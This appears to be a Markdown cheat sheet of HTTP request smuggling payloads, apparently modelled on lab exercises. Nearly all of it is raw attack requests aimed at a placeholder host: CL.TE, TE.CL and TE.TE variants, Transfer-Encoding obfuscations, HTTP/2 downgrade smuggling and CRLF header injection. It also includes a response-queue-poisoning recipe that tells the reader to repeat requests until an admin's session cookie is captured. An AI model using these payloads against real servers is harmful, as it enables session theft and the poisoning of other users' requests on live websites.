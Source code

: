 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\n\r
\n\r
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## H2.CL vulnerabilities
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## H2.TE vulnerabilities
```
POST / HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Response queue poisoning via H2.TE request smuggling
```
POST /x HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: vulnerable-website.com
```
Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

## HTTP/2 request smuggling via CRLF injection
1. Send the most recent POST / request to Burp Repeater and remove your session cookie before resending the request.
2. Expand the Inspector's Request Attributes section and change the protocol to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence \r\n to the header's value, followed by the Transfer-Encoding: chunked header:

__Name__
```
foo
```
__Value__
```
bar\r\n
Transfer-Encoding: chunked
```

4. In the body, attempt to smuggle an arbitrary prefix as follows:
```
0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
